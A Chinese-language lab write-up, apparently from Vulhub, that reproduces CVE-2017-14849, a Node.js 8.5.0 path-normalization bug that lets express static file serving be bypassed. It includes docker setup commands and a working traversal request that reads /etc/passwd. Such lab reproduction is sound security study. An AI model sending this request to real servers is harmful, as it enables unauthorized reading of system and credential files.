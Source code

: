 # Node.js 目录穿越漏洞 CVE-2017-14849

## 漏洞描述

参考文档：

- https://nodejs.org/en/blog/vulnerability/september-2017-path-validation/
- https://security.tencent.com/index.php/blog/msg/121

原因是 Node.js 8.5.0 对目录进行`normalize`操作时出现了逻辑错误，导致向上层跳跃的时候（如`../../../../../../etc/passwd`），在中间位置增加`foo/../`（如`../../../foo/../../../../etc/passwd`），即可使`normalize`返回`/etc/passwd`，但实际上正确结果应该是`../../../../../../etc/passwd`。

express这类web框架，通常会提供了静态文件服务器的功能，这些功能依赖于`normalize`函数。比如，express在判断path是否超出静态目录范围时，就用到了`normalize`函数，上述BUG导致`normalize`函数返回错误结果导致绕过了检查，造成任意文件读取漏洞。

当然，`normalize`的BUG可以影响的绝非仅有express，更有待深入挖掘。不过因为这个BUG是node 8.5.0 中引入的，在 8.6 中就进行了修复，所以影响范围有限。

## 环境搭建

Vulhub编译及运行环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip:3000/`即可查看到一个web页面，其中引用到了文件`/static/main.js`，说明其存在静态文件服务器。

![image-20220228104418600](images/202202281044680.png)

## 漏洞复现

发送如下数据包，即可读取passwd：

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![image-20220228104536521](images/202202281045638.png)